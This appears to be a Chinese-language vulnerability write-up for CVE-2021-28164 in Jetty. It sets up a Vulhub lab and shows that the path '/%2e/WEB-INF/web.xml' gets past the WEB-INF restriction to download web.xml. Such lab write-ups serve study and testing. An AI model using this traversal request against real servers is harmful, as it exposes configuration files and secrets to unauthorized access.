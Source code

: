 # CVE-2021-28164

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** Jetty WEB-INF 敏感信息泄露漏洞



## 0x01 漏洞描述

Eclipse Jetty是一个开源的servlet容器，它为基于Java的Web容器提供运行环境。

Jetty 9.4.37引入对RFC3986的新实现，而URL编码的`.`字符被排除在URI规范之外，这个行为在RFC中是正确的，但在servlet的实现中导致攻击者可以通过`%2e`来绕过限制，下载WEB-INF目录下的任意文件，导致敏感信息泄露。该漏洞在9.4.39中修复。

## 0x02 影响版本

```
9.4.37.v20210219
9.4.38.v20210224
```

## 0x03 环境搭建

Vulhub执行如下命令启动一个Jetty 9.4.37：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8080`可以查看到一个example页面。

![image-20240903212425274](./image/image-20240903212425274.png)

## 0x04 漏洞复现

直接访问`/WEB-INF/web.xml`将会返回404页面：

![image-20240903212502874](./image/image-20240903212502874.png)

使用`%2e/`来绕过限制下载web.xml：

```
/%2e/WEB-INF/web.xml'
```

![image-20240903212908172](./image/image-20240903212908172.png)